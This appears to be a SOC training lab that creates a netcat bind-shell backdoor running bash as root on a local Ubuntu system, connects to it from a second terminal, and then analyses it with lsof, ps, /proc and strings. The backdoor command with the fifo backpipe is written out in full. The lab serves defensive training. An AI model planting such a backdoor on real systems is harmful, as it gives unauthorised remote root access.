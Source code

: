
# Linux CLI

In this lab we will be looking at a backdoor through the lense of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The fist will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

/#`mknod backpipe p`

Next, lets start the backdoor:

/#`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listiner. 

Basicly, this will create a backdoor listnening on port 2222 of our linux system.

Now, lets open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

$`ifconfig`

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, lets connect:

$` nc 172.30.249.49 2222`

Remember!!!  Your IP address will be different!!!!

Now, lets type some commands and make sure it is working

`ls`
`whoami`

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we succesfully connected to the backdoor.  It just drops our curser back to the left side of the screen.

Now, lets open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

$`sudo su -`

This will get us to a root prompt.   We want to be root becasue doing looking at network connections and process information systemwide requires root access.  Basicly, it is very had to do your job as a SOC pro without root or admin rights.

Lets start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used.just give us the port number.

/#`lsof -i -P`


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now lets dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

/#`lsof -p 131`

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Lets look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes.  U for sorted by user and x to indlude the processes using a teletype terminal.

/#`ps aux`

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Lets change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various proccess directly.   This can be very usesfull as it allows us to dig into the memory of a process that is currently running on a suspect system.

/#`cd /proc/[pid]`

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

/#`ls`

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very usefull as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what, exacly a program is doing.

/#`strings ./exe`

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it direcly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















